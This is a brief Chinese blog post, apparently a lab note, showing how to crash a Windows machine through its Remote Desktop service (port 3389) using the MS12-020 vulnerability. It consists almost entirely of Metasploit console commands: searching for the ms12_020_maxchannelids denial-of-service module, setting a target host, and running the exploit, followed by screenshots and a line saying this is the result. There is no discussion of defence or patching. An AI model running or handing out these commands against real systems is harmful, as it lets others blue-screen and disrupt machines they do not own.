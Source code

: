 ```yaml
---
title: MS12-020 3389蓝屏攻击
date: 2018-05-07
tags: Metasploit
layout: post
---
```



```
search ms12_020
use exploit/dos/windows/rdp/ms12_020_maxchannelids
```
![这里写图片描述](https://img-blog.csdn.net/20180507114503715?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

```
set rhost 192.168.222.1
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180507114738713?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

>效果如下

![这里写图片描述](https://img-blog.csdn.net/20180507114747708?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

 
